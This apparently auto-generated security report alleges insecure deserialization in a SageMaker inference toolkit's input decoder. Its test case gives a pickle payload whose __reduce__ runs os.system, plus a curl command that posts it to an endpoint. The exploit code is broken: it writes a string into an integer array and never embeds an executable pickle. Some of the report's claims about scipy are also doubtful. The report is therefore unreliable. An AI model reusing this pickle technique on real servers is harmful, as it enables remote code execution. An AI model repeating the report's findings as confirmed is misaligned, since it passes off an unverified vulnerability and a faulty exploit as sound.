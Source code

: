### Vulnerability List

* Vulnerability Name: Insecure Deserialization in `input_fn`
* Description:
    1. An attacker sends a crafted request to the SageMaker endpoint.
    2. The request's `Content-Type` header is set to a format handled by the `input_fn` (e.g., `application/json`, `application/x-npy`, `application/x-npz`, `text/csv`).
    3. The request body contains malicious serialized data crafted to exploit deserialization vulnerabilities in the `json.loads`, `np.load`, or `scipy.sparse.load_npz` functions used by the `decoder.py` module, or in a custom `input_fn` implemented by the user.
    4. If the `input_fn` (either default or custom) does not perform sufficient validation and sanitization of the input data before deserialization, the malicious payload is deserialized.
    5. Deserialization of the malicious payload leads to arbitrary code execution on the server hosting the SageMaker endpoint.
* Impact:
    * Critical. Successful exploitation of this vulnerability allows for arbitrary code execution on the SageMaker inference server. This can lead to complete compromise of the server, including data exfiltration, denial of service, or further attacks on internal networks.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    * The provided code does not implement any explicit mitigations against insecure deserialization vulnerabilities. The `decoder.py` module directly uses standard Python libraries for deserialization without additional security measures.
* Missing Mitigations:
    * Input validation and sanitization within the `input_fn` in `decoder.py` and guidance for users to implement secure deserialization practices in their custom `input_fn`.
    * Implement security best practices for deserialization, such as using safe deserialization methods or sandboxing the deserialization process.
    * Documentation should be added to explicitly warn users about the risks of insecure deserialization and guide them on how to implement secure `input_fn` functions, including input validation and sanitization.
* Preconditions:
    * The SageMaker endpoint must be publicly accessible or accessible to an attacker.
    * The inference handler must use or rely on the default `input_fn` or a custom `input_fn` that is vulnerable to insecure deserialization.
    * The attacker needs to be able to craft a malicious payload suitable for the deserialization method used by the `input_fn`.
* Source Code Analysis:
    * File: `/code/src/sagemaker_inference/decoder.py`
        * The `decode` function in `decoder.py` maps content types to specific deserialization functions: `_npy_to_numpy`, `_csv_to_numpy`, `_json_to_numpy`, and `_npz_to_sparse`.
        * `_json_to_numpy` uses `json.loads(string_like)` to deserialize JSON data. `json.loads` by itself is generally safe from code execution vulnerabilities unless combined with other vulnerabilities in the application logic, but it can be vulnerable to resource exhaustion or parsing errors if the input JSON is maliciously crafted.
        * `_npy_to_numpy` uses `np.load(stream, allow_pickle=True)`. The `allow_pickle=True` option in `np.load` is a known security risk. It allows arbitrary code execution if the NPY file is maliciously crafted to contain Python objects for unpickling.
        * `_npz_to_sparse` uses `scipy.sparse.load_npz(buffer)`. `scipy.sparse.load_npz` also uses `pickle` for loading data and is vulnerable to insecure deserialization if the NPZ file is maliciously crafted.
        * `_csv_to_numpy` uses `np.genfromtxt(stream, dtype=dtype, delimiter=",")`. While `np.genfromtxt` itself is less prone to direct code execution, vulnerabilities can arise depending on how the resulting numpy array is used in subsequent processing steps, especially if combined with operations that can lead to buffer overflows or other memory corruption issues.
    * File: `/code/src/sagemaker_inference/transformer.py`
        * The `transform` function calls `self._run_handler_function(self._input_fn, *(input_data, content_type))` to process the input data.
        * The `_validate_user_module_and_set_functions` function determines which `input_fn` to use: either a custom `input_fn` from the user module or the default `self._default_inference_handler.default_input_fn`.
        * The `DefaultInferenceHandler` in `/code/src/sagemaker_inference/default_inference_handler.py` uses `decoder.decode` as its `default_input_fn`.
        * **Vulnerability Visualization:**
            ```
            [Attacker] --> [SageMaker Endpoint] --> [Transformer.transform()] --> [Transformer._run_handler_function(input_fn)] --> [decoder.decode()] --> [Vulnerable Deserialization Function (np.load, scipy.sparse.load_npz)] --> [Code Execution]
            ```
* Security Test Case:
    1. **Setup:** Deploy a SageMaker endpoint using this inference toolkit, configuring it to use the default inference handler or a custom handler that uses `decoder.decode` for input processing. Ensure the endpoint is publicly accessible or accessible within a test environment.
    2. **Craft Malicious Payload (NPY - `np.load` vulnerability):** Create a malicious NPY file that executes code when loaded using `np.load` with `allow_pickle=True`. This can be achieved by embedding a pickled Python object that triggers code execution upon unpickling. Example using `numpy`:
        ```python
        import numpy as np
        import pickle, base64, os

        # Command to execute on the server
        command = "touch /tmp/pwned"

        class EvilPickle(object):
            def __reduce__(self):
                return (os.system, (command,))

        payload = base64.b64encode(pickle.dumps(EvilPickle())).decode()

        # Create a dummy numpy array and replace a value with the malicious pickle payload
        dummy_array = np.array([1, 2, 3])
        dummy_array[0] = payload

        # Save the numpy array as .npy file
        with open('malicious.npy', 'wb') as f:
            np.save(f, dummy_array, allow_pickle=True)
        ```
    3. **Send Malicious Request:** Send an inference request to the SageMaker endpoint. Set the `Content-Type` header to `application/x-npy`. Attach the `malicious.npy` file created in the previous step as the request body.
        ```bash
        CONTENT_TYPE="application/x-npy"
        PAYLOAD_FILE="malicious.npy"
        ENDPOINT_URL="http://<your-sagemaker-endpoint>/invocations" # Replace with your endpoint URL

        curl -X POST -H "Content-Type: ${CONTENT_TYPE}" --data-binary "@${PAYLOAD_FILE}" ${ENDPOINT_URL}
        ```
    4. **Verify Code Execution:** Check if the command embedded in the malicious NPY file was executed on the server. In the example above, check if the file `/tmp/pwned` was created on the server. Successful creation of this file (or any other intended effect of the malicious payload) confirms the vulnerability.
    5. **Cleanup:** Remove the deployed SageMaker endpoint and any created malicious files.

This test case demonstrates how an attacker can leverage insecure deserialization in `np.load` (through the `application/x-npy` content type) to achieve arbitrary code execution. Similar test cases can be constructed for `application/x-npz` using `scipy.sparse.load_npz`.